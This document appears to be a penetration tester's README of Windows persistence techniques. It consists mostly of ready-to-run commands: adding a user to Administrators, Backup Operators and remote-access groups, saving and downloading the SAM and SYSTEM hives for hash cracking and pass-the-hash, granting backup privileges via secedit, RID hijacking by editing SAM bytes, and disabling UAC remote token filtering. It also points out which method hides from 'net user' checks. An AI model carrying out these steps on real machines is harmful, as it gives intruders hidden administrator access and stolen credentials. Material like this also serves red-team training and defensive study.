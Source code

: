 # Windows Persistence

## Assign Group Memberships

### Add to Administrators group
Most straight forward way, but could be suspicious.

`C:\> net localgroup administrators <username> /add`

### Add to Backup Operators
Backup Operators have read/write for any file or registry key on the system and ignores any configured DACL.

Can use this to copy SAM and SYSTEM registry hives to crack hashes offline.

`C:\> net localgroup "Backup Operators" <username> /add`

Downside is that this account is unprivileged and cannot RDP or WinRM to the machine. We can add it to the **Remote Desktop Users** for RDP or **Remote Management Users** for WinRM

`C:\> net localgroup "Remote Desktop Users" <username> /add`

`C:\> net localgroup "Remote Management Users" <username> /add`

#### After Creation
After connecting to the host using Evil-WinRM with the Backup Operators account, we can use the following commands to grab SAM and SYSTEM files:

`*Evil-WinRM* PS C:\> reg save hklm\system system.bak`

`*Evil-WinRM* PS C:\> reg save hklm\sam sam.bak`

`*Evil-WinRM* PS C:\> download system.bak`

`*Evil-WinRM* PS C:\> download sam.bak`

Then you can use [impacket](../../useful_tools/Linux/README.md#impacket---secretsdumppy) for cracking the hashes. Then perform a Pass-the-Hash attack using [evil-winrm](../../remote_connection/Windows/README.md#winrm)

## Special Privileges and Security Descriptors
### SeBackupPrivilege & SeRestorePrivilege
These two privileges are the ones used by Backup Operator accounts. We can give users those privileges doing the following:

`C:\> secedit /export /cfg config.inf`

This will create a `config.inf` file in the current directory. Open the file in notepad (or something similar) and scroll to the [Privilege Rights] section. There look for the two privileges and add the user you want at the end of the line `<line>,<username>`. Then run the following commands:

`C:\> secedit /import /cfg config.inf /db config.sbd`

`C:\> secedit /configure /db config.sbd /cfg config.inf`

### Security Descriptor
We will now need to allow our user to connect to WinRM. **You will need to have GUI access to the host for this step**.

`C:\> Set-PSSessionConfiguration -Name Microsoft.PowerShell -showSecurityDescriptorUI`

You will then need to add the user you want and select the Full Control(All Operations) box.

[After Creation](#after-creation)

If someone was looking at the user using `net user <username>` this method will not show that it has any special group memberships!

## RID Hijacking
This has to be one of my favorite low level ways of persistence (I just think it is cool, I may learn something better later on)!

The default Administrator account is assigned the RID = 500, while regular users have an RID >= 1000. We can check to see the RIDs by using the following command:

`C:\> wmic useraccount get name,sid`

The RID is the last part of the SID. Write down the RID of the account you want to change.

**You will need to get [pstools](../../useful_tools/Windows/README.md#pstools) onto the host machine**

`C:\<location of pstools> > PsExec64.exe -i -s regedit`

This will open up regedit with a SYSTEM account that will allow us to change the SAM. Go to: `HKLM\SAM\SAM\Domains\Account\Users\`

We will need to look through the accounts under the variable name F at location 0x30. This is the little endian hex value of the RID for the account. So make sure to take the RID of the user you want to give admin rights to and convert to little endian hex. Once you found the user you will need to change the 4 bytes to 0x01F4, which is 500. Make sure to put it in little endian F4 01.

Next time you attempt to log in the system will grant you admin rights!

## Potential Fences

### UAC
Due to UAC (User Account Control) admin rights may be stripped upon remote connection. This is due to the LocalAccountTokenFilterPolicy registry value. We can change that using the following command:

`C:\> reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /t REG_DWORD /v LocalAccountTokenFilterPolicy /d 1`

Where `/t` is the datatype, `/v` is the valuename, and `/d` is the data.